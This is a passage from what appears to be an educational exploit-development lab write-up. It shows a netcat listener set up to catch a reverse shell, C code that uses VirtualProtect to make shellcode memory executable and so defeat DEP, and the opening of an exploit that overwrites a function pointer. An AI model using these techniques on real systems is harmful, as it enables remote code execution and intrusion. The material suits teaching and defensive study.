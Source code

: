 8. Launch a [netcat](https://linux.die.net/man/1/nc) listener on our *Kali Linux* machine listening on port 8080, so we can receive the outbound connection from the target.
	```sh
	$ nc -l -v -p 8080
	```
	* `nc`: The netcat command
  	* `-l`: Set netcat to listen for connections.
  	* `v`: Verbose output.
  	* `p`: Set to listen on a port, in this case port 8080.

> [!NOTE]
> If you do not disable DEP protections when compiling the program you will notice it crashes when attempting to jump into the shellcode that has been loaded into the data section of the code in the original program.
> 
>   <img src="Images/I53.png" width=600>
> 
> Due to the addition of the following code in the program we bypass the issues that are caused when DEP is enabled:
> ```c
> 	// Mark the shell code as executable 
> 	DWORD oldProtect;
> 	VirtualProtect(SHELL, sizeof(SHELL), PAGE_EXECUTE_READWRITE, &oldProtect);
> ```
> * With this we modify the region the shellcode is located in as executable
## Example Program: Exploit 3, Shell execution (Overwrite function pointer)
This exploit is based on the previously discussed exploit, however, this time we place function pointers inside of the vectors instead of object pointers. This allows for a more straightforward exploit as we can simply overflow the function pointer directly with the address of the code we would like to execute. Below is a diagram showing the flow of our exploit:
